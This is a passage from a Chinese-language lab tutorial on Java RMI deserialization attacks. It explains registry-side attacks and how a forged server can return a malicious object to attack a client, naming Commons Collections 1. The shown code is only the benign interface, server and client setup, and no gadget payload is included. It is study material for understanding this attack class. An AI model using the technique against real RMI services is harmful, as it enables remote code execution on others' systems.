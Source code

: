 这里即使调用unbind也会触发反序列化，推测是在之前传输一些约定好的数据时进行的序列化和反序列化。所以实际上这五种方法都可以达到注册中心反打客户端或服务端的目的

### 服务端攻击客户端

服务端攻击客户端，大抵可以分为以下两种情景。

1. 服务端返回参数为Object对象
2. 远程加载对象

在RMI中，远程调用方法传递回来的不一定是一个基础数据类型（String、int），也有可能是对象，当服务端返回给客户端一个对象时，客户端就要对应的进行反序列化。所以我们需要伪造一个服务端，当客户端调用某个远程方法时，返回的参数是我们构造好的恶意对象。这里以cc1为例

### 服务端cc1攻击

**User接口**

```java
package rmi_injection_labs1.service;

import java.rmi.RemoteException;
public interface User extends java.rmi.Remote {
    public Object getUser() throws RemoteException;
}
```

**服务端**

```java
package rmi_injection_labs1.server;

import rmi_injection_labs1.service.LocalUser;
import rmi_injection_labs1.service.User;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.concurrent.CountDownLatch;

public class LocalUserServer {
    public static void main(String[] args) throws Exception {
        User liming = new LocalUser("liming",15);
        Registry registry = LocateRegistry.createRegistry(1099);
        registry.bind("user",liming);
        System.out.println("registry is running...");
        System.out.println("liming is bind in registry");
        CountDownLatch latch=new CountDownLatch(1);
        latch.await();
    }
}
```

**客户端**

```java
package rmi_injection_labs1.client;

import rmi_injection_labs1.service.User;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class LocalUserServerAttack2ClientByCC1 {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        User user = (User) registry.lookup("user");
        user.getUser();
    }
}
```
